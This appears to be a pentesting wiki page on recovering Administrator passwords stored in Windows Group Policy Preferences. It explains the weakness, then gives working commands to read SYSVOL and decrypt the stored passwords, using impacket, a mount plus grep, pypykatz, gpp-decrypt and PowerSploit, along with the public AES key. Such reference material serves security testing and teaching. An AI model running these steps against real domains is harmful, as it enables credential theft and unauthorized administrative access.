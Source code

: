 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
authors: 'ShutdownRepo, p0dalirius, sckdev'
category: ad
---
```


# Group Policy Preferences

## Theory

Windows systems come with a built-in Administrator (with an RID of 500) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

* **Issue 1**: the password is set to be the same for every (set of) machine(s) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all (or set of) machines.
* **Issue 2**: by default, knowing the built-in Administrator's hash (RID 500) allows for powerful [Pass-the-Hash](../../ntlm/pth.md) attacks ([read more](../../ntlm/pth.md#limitations-tips-and-tricks)).
* **Issue 3**: all Group Policies are stored in the Domain Controllers' `SYSVOL` share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted:man_shrugging:.

## Practice

::: tabs

=== UNIX-like

From UNIX-like systems, the [Get-GPPPassword.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) (Python) script in the impacket examples can be used to remotely parse `.xml` files and loot for passwords.

```bash
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

Alternatively, searching for passwords can be done manually (or with Metasploit's `smb_enum_gpp` module), however it requires mounting the `SYSVOL` share, which can't be done through a docker environment unless it's run with privileged rights.

Tools like [pypykatz](https://github.com/skelsec/pypykatz) (Python) and [gpp-decrypt](https://github.com/BustedSec/gpp-decrypt) (Ruby) can then be used to decrypt the matches.

```bash
# create the target directory for the mount
sudo mkdir /tmp/sysvol

# mount the SYSVOL share
sudo mount\
 -o domain='domain.local'\
 -o username='someuser'\
 -o password='password'\
 -t cifs\
 '//domain_controller/SYSVOL'\
 /tmp/sysvol

# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null

# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```


=== Windows

From Windows systems, the GPP password can only be recovered from an authenticated (i.e. domain user) context (see [impersonation](../impersonation.md)).

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) searches a Domain Controller's SYSVOL share `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml` and `Drives.xml` files and returns plaintext passwords

```bash
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

This can also be achieved without tools, by "manually" looking for the `cpassword` string in xml files and by then manually decrypting the matches.

```bash
findstr /S cpassword %logonserver%\sysvol*.xml
```

The decryption process is as follows

```
1. decode from base64
2. decrypt from AES-256-CBC the following hex key/iv
 Key : 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
 IV : 0000000000000000000000000000000
3. decode from UTF-16LE
```

:::


## Resources

[https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)

[http://blog.carnal0wnage.com/2012/10/group-policy-preferences-and-getting.html](http://blog.carnal0wnage.com/2012/10/group-policy-preferences-and-getting.html)

[https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/](https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/)

[https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)

